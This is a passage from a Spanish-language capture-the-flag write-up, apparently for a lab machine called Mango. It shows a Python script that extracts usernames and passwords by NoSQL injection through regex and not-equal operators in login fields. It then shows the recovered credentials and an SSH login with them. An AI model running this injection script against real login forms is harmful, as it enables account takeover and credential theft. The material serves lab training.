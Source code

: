 ```python
	while True:
		for char in dicc_user:

			data={
				"username[$regex]":"^%s%s" % (user,char),
				"password[$ne]":"test",
				"login":"login"
			}

			r=requests.post(url,data=data,proxies=proxies,allow_redirects=False)

			p1.status(str(data))

			if r.status_code == 302:

				user+=char
				p2.status(user)


if __name__ == '__main__':
	nosqli()
```

He añadido un dicc personalizado donde la "aA" se posicione despues, por si hay otro usario que no empiece por "aA", en el caso de que existiera tendria que cambiar al posición a la m y así sucesivamente.

Si ejecutamos el script vemos otro usuario.

```bash
❯ python3 script.py
[▅] Iniciando NoSQLI: {'username[$regex]': '^mangoX', 'password[$ne]': 'test', 'login': 'login'}
[┐] Datos:: mango
[!] Saliendo...
```

Podemos ver el usuario mango, ahora pondremos el script como al principio para extraer la password de dicho usuario.

```bash
❯ python3 script.py
[/] Iniciando NoSQLI: {'username[$eq]': 'mango', 'password[$regex]': '^h3mXK8RhU~f{]f5H<.*', 'login': 'login'}
[/] Datos:: h3mXK8RhU~f{]f5H
[!] Saliendo...
```

### Privesc To Other User

Si probamos a conectarnos por SSH podemos autenticarnos correctamente,

```bash
❯ sshpass -p 'h3mXK8RhU~f{]f5H' ssh mango@10.10.10.162
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Mar  4 10:45:40 UTC 2023

  System load:  0.08               Processes:            103
  Usage of /:   26.7% of 19.56GB   Users logged in:      0
  Memory usage: 26%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


```